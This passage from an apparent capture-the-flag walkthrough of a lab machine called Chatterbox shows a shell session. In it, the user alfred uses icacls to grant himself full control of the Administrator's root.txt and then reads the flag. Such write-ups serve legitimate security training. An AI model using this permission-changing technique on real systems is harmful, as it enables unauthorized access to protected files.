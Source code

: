 We don’t have read access to the file now:

```

C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

```

But, we can change that with `icacls`:

```

c:\Users\Administrator\Desktop>icacls root.txt /grant alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Alfred:(F)
         CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
a673d1b1...

```